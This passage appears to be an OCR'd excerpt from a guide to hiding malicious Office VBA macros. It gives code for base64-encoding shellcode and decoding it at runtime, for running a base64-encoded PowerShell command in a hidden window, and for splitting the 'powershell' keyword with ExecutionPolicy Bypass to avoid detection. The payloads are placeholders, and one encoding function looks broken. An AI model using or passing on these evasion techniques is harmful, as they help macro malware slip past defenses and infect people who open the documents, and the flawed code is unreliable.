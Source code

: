 2. **Base64 Encoding Shellcode**: Encode shellcode and decode it at runtime.
```vba
Sub RunEncodedShellcode()
    Dim encodedShellcode As String
    encodedShellcode = "QWxsb2MgSExHTEcgZm9yIHNoZWxsY29kZQ==" ' Example base64-encoded string
    Dim decodedShellcode() As Byte
    decodedShellcode = Base64Decode(encodedShellcode)
    ' ... Use decoded shellcode
End Sub

Function Base64Decode(base64 As String) As Byte()
    Dim xml As Object
    Set xml = CreateObject("MSXml2.DOMDocument.3.0")
    xml.LoadXML "<b64>" & base64 & "</b64>"
    Base64Decode = xml.DocumentElement.nodeTypedValue
End Function
```

#### **Obfuscating the PowerShell Command**

1. **Base64 Encode PowerShell Command**: Use Base64 encoding to hide the actual command.
```vba
Sub RunObfuscatedPowerShell()
    Dim psCommand As String
    psCommand = "[Byte[]] $sc = 0xfc,0x48,...; $mem = ..."
    
    ' Base64 encode the PowerShell command
    Dim base64Command As String
    base64Command = EncodeBase64(psCommand)

    ' Run PowerShell with Base64-encoded command
    Dim cmd As String
    cmd = "powershell -EncodedCommand " & base64Command
    Shell cmd, vbHide
End Sub

Function EncodeBase64(text As String) As String
    Dim bytes() As Byte
    bytes = StrConv(text, vbFromUnicode)
    Dim xml As Object
    Set xml = CreateObject("MSXml2.DOMDocument.3.0")
    xml.LoadXML "<b64>" & bytes & "</b64>"
    EncodeBase64 = xml.DocumentElement.nodeTypedValue
End Function
```

2. **String Concatenation and Variable Substitution**: Break up keywords and PowerShell commands to avoid detection.
```vba
Sub RunSplitPowerShellCommand()
    Dim part1 As String, part2 As String, part3 As String
    part1 = "pow"
    part2 = "ers"
    part3 = "hell -ExecutionPolicy Bypass -NoProfile -Command calc.exe"

    Shell part1 & part2 & part3, vbHide
End Sub
```
